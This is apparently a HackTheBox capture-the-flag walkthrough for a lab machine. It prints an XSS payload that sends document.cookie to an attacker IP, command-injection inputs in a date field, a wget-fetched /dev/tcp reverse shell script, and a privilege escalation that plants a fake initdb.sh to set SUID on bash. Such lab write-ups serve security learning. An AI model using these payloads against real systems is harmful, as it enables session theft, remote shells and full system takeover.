



## Reconnaissance

### nmap 


### Web Service 


### Gobuster Result 


### Check Path

> /dashboard
> It's not able to access without credential 


> support
> This is the only place I can play some character to do malicious action


## Exploit 

> Try to send the request
> It will redirect back to support empty form


> Manipulate the request
> I can find some malicious character will cause server block the ip.

```
<script>alert(document.cookie)</script>

```




### Fundamental 

> Stop in here, I'm not sure how to bypass this block action,
> But with this block action, I think it accept those special character.

> Then,  I also set payload on different request header, all of them won't work.
> I know I need to that XSS trigger and get the admin cookie 

```
<script>alert(document.cookie)</script>
```

> I tried to find out the how to bypass detection, them I found that 

1. The payload in message will trigger detection, it will provide "Hacking Attempt Detected" page


2. This page will include a lot of "Request Header" information
3. If I set 2nd payload in any of header 

```
I only tried User-Agent and Accept
```

4. The the 2nd payload will be executed in Detection page


> I collect a lot of payload, and check the following article.

-  [PortSwigger Academy Lab: Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)


- [XSS - Sending data to remote server](https://infosecgirls.gitbook.io/infosecgirls-training/v/appsec/web-application-pentesting/a7-cross-site-scripting/advanced-xss-sending-data-to-remote-server)


- [Pentesting basics: Cookie Grabber (XSS)](https://medium.com/@laur.telliskivi/pentesting-basics-cookie-grabber-xss-8b672e4738b2)



- [Exploiting XSS-stealing cookies, csrf](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e)


-  [EXPLOITING CROSS-SITE SCRIPTING TO STEAL COOKIES](https://cqr.company/web-vulnerabilities/exploiting-cross-site-scripting-to-steal-cookies/)


> Then I tried the following 2 payloads which works well 

```
<script>document.location="http://10.10.14.76/?c="document.cookie</script>

```


> Check python HTTP Server
> I got another cookie information

```
ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```


> Set up the new session cookie
> And check the /dashboard
> It will get into another page which has a "Generate Report" button


> Enumerate this button with burp


> with the POST request and the result message ("System are up and running")
> I just have an idea, maybe, it use some command to take the date as value to generate report.
> So, I think I can terminate or concatenate the command 
> Then the result like below, command injection success.

```
date=2023-09-15;ls
```


```
date=2023-09-15;whoami
```


```
date=2023-09-15;cat+/etc/passwd
```


> Try to get reverse shell 
> I try some common shell command, but failed
> Finally, I use a file and wget to success to get reverse shell

1. Generate a reverse shell file

```
!#/bin/bash

/bin/bash -i >& /dev/tcp/10.10.14.76/443 0>&1
```


2. command injection with wget command

```
date=2023-09-15;wget+http://10.10.14.76/rev1.sh+-O+/tmp/rev1.sh
date=2023-09-15;/bin/bash+/tmp/rev1.sh
```


> Check current user 


> Get user flag


## Privilege Escalation 

> Check sudo permission 
```
sudo -l
```


>  Current user can execute /usr.bin/syscheck with root permission without password


> Research how to use it to PE
> GTFObin doesn't have any result about it



> I back to target machine and check the syscheck


> Research from google 
> I found the following define

-  Regular to check any configure file change or not


> and according to the script content
> It will search process (initdb.sh) by pgrep,
> if it can't find this process, then it will execute initdb.sh to launch database


> Usage of pgrep


> So, maybe I can create a fake initdb shell script
> and execute the syscheck to force it to trigger the malicious initdb.sh

```
echo "chmod u+s /bin/bash" > initdb.sh
chmod +x initdb.sh
sudo /usr/bin/syscheck
bash -p

```


> Get root flag


## Reference 


### XSS Payload 

- [Pentesting basics: Cookie Grabber (XSS)](https://medium.com/@laur.telliskivi/pentesting-basics-cookie-grabber-xss-8b672e4738b2)
- [XSS - Sending data to remote server](https://infosecgirls.gitbook.io/infosecgirls-training/v/appsec/web-application-pentesting/a7-cross-site-scripting/advanced-xss-sending-data-to-remote-server)
- [xss-payload-list.txt](https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt)
-  [PortSwigger Academy Lab: Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)
- [Exploiting XSS-stealing cookies, csrf](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e)
-  [EXPLOITING CROSS-SITE SCRIPTING TO STEAL COOKIES](https://cqr.company/web-vulnerabilities/exploiting-cross-site-scripting-to-steal-cookies/)

### Linux command 

- [pgrep Command Guide | Linux Process Management Basics](https://ioflood.com/blog/pgrep-linux-command/)
- [pgrep Command Examples](https://linuxhandbook.com/pgrep/)
- [syscheck](https://www.ossec.net/docs/manual/syscheck/index.html)

### XSS cookie stealer 

- [XSS cookie stealer ](https://github.com/HHousen/HTB-CyberSanta-2021/blob/master/Web/Toy%20Workshop/xss-cookie-stealer.py)
- [PythonCookieStealer](https://github.com/TheWation/PythonCookieStealer)


## Research 

1. XSS payload - about the exploit technique related to send cookie back to my host (which means it should be trigger by other user and send it back to host)
###### tags: `HackTheBox`